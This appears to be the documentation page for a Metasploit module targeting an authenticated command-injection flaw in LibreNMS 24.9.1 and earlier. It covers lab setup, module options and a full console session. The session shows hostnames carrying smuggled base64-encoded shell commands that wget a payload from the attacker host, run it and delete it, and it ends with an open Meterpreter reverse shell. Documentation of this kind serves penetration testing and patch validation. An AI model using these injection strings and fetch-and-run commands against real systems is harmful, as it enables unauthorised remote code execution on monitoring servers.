 ## Vulnerable Application

An authenticated attacker can create dangerous directory names on the system and
alter sensitive configuration parameters through the web portal.
Those two defects combined then allows to inject arbitrary OS commands inside shell_exec() calls,
thus achieving arbitrary code execution.

The vulnerability affects:

    * LibreNMS <= 24.9.1

This module was successfully tested on:

    * LibreNMS 24.9.1 installed on Ubuntu 22.04


### Installation

1. Follow the [official instructions](https://docs.librenms.org/Installation/Install-LibreNMS/).
After git clone, change version: `git checkout tags/24.9.1`.

2. Comment out the last line in `/etc/cron.d/librenms`:
`19 0 * * * librenms /opt/librenms/daily.sh >> /dev/null 2>&1`.
Otherwise, the version will be updated to the latest, causing the exploit to fail.


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/librenms_authenticated_rce_cve_2024_51092`
4. Do: `run lhost=<lhost> rhost=<rhost> username=<username> password=<password>`
5. (Optional) Do: `php artisan device:poll all` on the victim machine or wait up to 5 minutes (default cron setting)
6. You should get a meterpreter


## Options
### USERNAME (required)
User name for LibreNMS.

### PASSWORD (required)
Password for LibreNMS.

### PATH (required)
LibreNMS installed location. Default is `/opt/librenms`.

### WAIT (required)
Wait time (seconds) for cron to poll the device. Default is `30`.

### RETRY (required)
Maximum wait time: WAIT x RETRY (seconds). Default is `11`.


## Scenarios
```
msf6 > use exploit/linux/http/librenms_authenticated_rce_cve_2024_51092
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/librenms_authenticated_rce_cve_2024_51092) > options

Module options (exploit/linux/http/librenms_authenticated_rce_cve_2024_51092):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Password for LibreNMS
   PATH      /opt/librenms    yes       LibreNMS installed location
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RETRY     11               yes       Maximum wait time: WAIT x RETRY (seconds)
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     80               yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME                   yes       User name for LibreNMS
   VHOST                      no        HTTP server virtual host
   WAIT      30               yes       Wait time (seconds) for cron to poll the device


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      TeYGiCPdGgd      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.0.12     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/librenms_authenticated_rce_cve_2024_51092) > run lhost=192.168.56.1 rhost=192.168.56.17 username=librenms password=librenms
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Successfully logged into LibreNMS.
[+] The target appears to be vulnerable. LibreNMS version 24.9.1 detected, which is vulnerable.
[*] Added host: 'nLC;echo d2dldCAtcU8gLi9pa2Z1TW5QdVVHIGh0dHA6Ly8xOTIuMTY4LjU2LjE6ODA4MC9HLThmOG5rb0gwZFRaR1BzTnZTMjNn|base64 -d|bash;#'
[*] Actual payload: wget -qO ./ikfuMnPuUG http://192.168.56.1:8080/G-8f8nkoH0dTZGPsNvS23g
[*] Added host: 'oUV;echo Y2htb2QgK3ggLi9pa2Z1TW5QdVVH|base64 -d|bash;#'
[*] Actual payload: chmod +x ./ikfuMnPuUG
[*] Added host: 'GVZ;echo Li9pa2Z1TW5QdVVHJnNsZWVwIDU=|base64 -d|bash;#'
[*] Actual payload: ./ikfuMnPuUG&sleep 5
[*] Added host: 'OYV;echo cm0gLXJmIC4vaWtmdU1uUHVVRw==|base64 -d|bash;#'
[*] Actual payload: rm -rf ./ikfuMnPuUG
[*] [1/11] Waiting 30 seconds for cron to poll the device...
[*] [2/11] Waiting 30 seconds for cron to poll the device...
[*] Sending stage (3045380 bytes) to 192.168.56.17
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.17:54048) at 2025-01-16 12:57:18 +0900
[*] Reset snmpget to default.
[*] Deleted device: 291
[*] Deleted device: 292
[*] Deleted device: 293
[*] Deleted device: 294

meterpreter > getuid
Server username: librenms
meterpreter > sysinfo
Computer     : 192.168.56.17
OS           : Ubuntu 22.04 (Linux 6.8.0-50-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

